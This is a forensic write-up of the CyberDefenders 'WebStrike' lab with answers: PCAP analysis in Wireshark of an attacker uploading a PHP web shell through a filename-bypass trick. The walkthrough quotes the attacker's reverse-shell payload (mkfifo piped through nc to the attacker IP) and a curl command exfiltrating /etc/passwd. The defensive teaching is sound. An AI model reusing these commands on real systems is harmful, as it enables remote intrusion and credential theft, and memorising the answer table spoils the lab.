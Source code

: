 # WebStrike - Lab 1: Investigating a Suspicious File Upload

A forensic walkthrough of malicious web activity captured via PCAP, analyzed using Wireshark to identify attacker behavior, uncover vulnerabilities, and determine the scope of unauthorized access.


## Demo Video


**Full Video Walkthrough**: 

[Click here to watch on YouTube](https://youtu.be/c0VsVmQ7IYs)]



## Lab Scenario

A suspicious file was discovered on a company web server. The Development team flagged the anomaly, and a PCAP file of the relevant network traffic was captured. Your task: trace the attacker's activity, understand how the file was uploaded, and determine what (if anything) was exfiltrated.


## Tools Used

- **Wireshark** (for full traffic analysis)
- **IP Geolocation** services
- **PCAP** file provided via Cyber Defenders
- Markdown and screenshots for documentation

---

## Summary of Findings

| Question | Answer |
|------------|-----------|
| **1. City of attack origin** | Tianjin |
| **2. Attacker's User-Agent** | `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0` |
| **3. Name of malicious web shell** | `image.jpg.php` |
| **4. Upload directory** | `/reviews/uploads/` |
| **5. Outbound communication port** | `8080` |
| **6. File targeted for exfiltration** | `/etc/passwd` |

---

## Walkthrough

### 1. Identifying the geographical origin of the attack helps in implementing geo-blocking measures and analyzing threat intelligence. From which city did the attack originate?

- Used **Wireshark** to analyze IPv4 endpoints  
  ![Endpoints in Wireshark](./images/endpoints-view.png)

- Identified `117.11.88.124` as external attacker IP  
- Verified geolocation using [ipgeolocation.io](https://ipgeolocation.io)  
  ![GeoIP Lookup Screenshot](./images/ip-geo.png)
- The attack originated from Tianjin, China
- **Answer** - Tianjin

---

### 2. Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?

- Followed the HTTP stream from the attacker:
  ![HTTP Stream](./images/user-agent-stream.png)

- Revealed full User-Agent:  
  `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
- **Answer** - `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`
---

### 3. We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?

- Applied filter:  
  ```wireshark
  ip.src == 117.11.88.124 and http.request.method == "POST"
- Two upload attempts observed:
  - First failed: `image.php`
  - Second succeeded: `image.jpg.php`
    ![Successful Upload](./images/upload-success.png)
- The attacker successfully bypassed the server's validation by appending .jpg to the filename
- **Answer** - image.jpg.php
---

### 4. Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?

- File was successfully uploaded via `upload.php`
- Reviewed the server's HTTP response behavior
- Server returned `301 Moved Permanently`, redirecting to `/reviews/uploads/`
  ![301 Redirect](./images/301.png)
- Followed this redirect, `image.jpg.php` was accessible at that path
- The website stores uploaded files in the `/reviews/uploads/` directory
- **Answer** - `/reviews/uploads/`
---

### 5. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?

- Extracted PHP payload:
  ```php
  <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
- Indicates outbound connection to attacker on port 8080
- **Answer** 8080
---

### 6. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

- Used Wireshark filter:
  ```wireshark
  tcp.port == 8080 and ip.src == 24.49.63.79
- Found `curl -X POST -d /etc/passwd http://117.11.88.124:443/` in the TCP stream
- The attacker was attempting to exfiltrate `/etc/passwd`
- **Answer** - `passwd`
---

## Lessons Learned

- Importance of proper file validation on upload endpoints
- How attackers use filename obfuscation to bypass filters
- Value of network traffic inspection during incident response
- How reverse shells exploit outbound connections
- Role of User-Agent and IP analysis in filtering and threat intel
---

## References

- [CyberDefenders – WebStrike Lab](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)
- [Wireshark](https://www.wireshark.org/)
- [ipgeolocation.io](https://ipgeolocation.io/)


